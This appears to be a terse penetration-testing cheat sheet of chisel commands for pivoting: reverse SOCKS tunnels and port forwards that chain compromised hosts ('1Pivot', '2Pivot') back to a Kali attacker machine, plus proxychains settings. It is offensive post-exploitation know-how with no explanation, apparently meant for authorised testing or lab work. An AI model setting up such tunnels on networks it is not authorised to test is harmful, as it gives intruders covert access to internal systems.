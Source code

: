 chisel
~~~cmd
#172.16.40.5
./chisel_amd64 server -p 5555 --reverse &
#10.90.60.80
./chisel client 172.16.40.5:5555 R:socks &
~~~
************************************************************
SPECIFIC PORT FORWARDING
~~~cmd
#1Pivot 10.90.60.80:
chisel server -p 8888 -reverse
#2Pivot 10.185.10.34
chisel client 10.90.60.80:8888 R:9001:10.185.11.127:80
kali 172.16.40.5
chisel server -p 8000 -reverse
#1Pivot 10.90.60.80
chisel client 172.16.40.5:8000 R:8001:127.0.0.1:9001
~~~
************************************************************
************************************************************
DYNAMIC PORT FORWARDING
~~~cmd
#Kali - 172.16.40.5
./chisel_amd64 server --socks5 -p 9001 --reverse &
#1Pivot - 10.90.60.80
./chisel_386 client 172.16.40.5:9001 R:9999:socks &
./chisel_386 server --socks5 -p 9002 --reverse &
#2Pivot - 10.185.10.34
./chisel.exe client 10.90.60.80:9002 R:9998:socks
#Kali
#Modify proxychains to have the following:
socks5 127.0.0.1 9999
socks5 127.0.0.1 9998
~~~
************************************************************
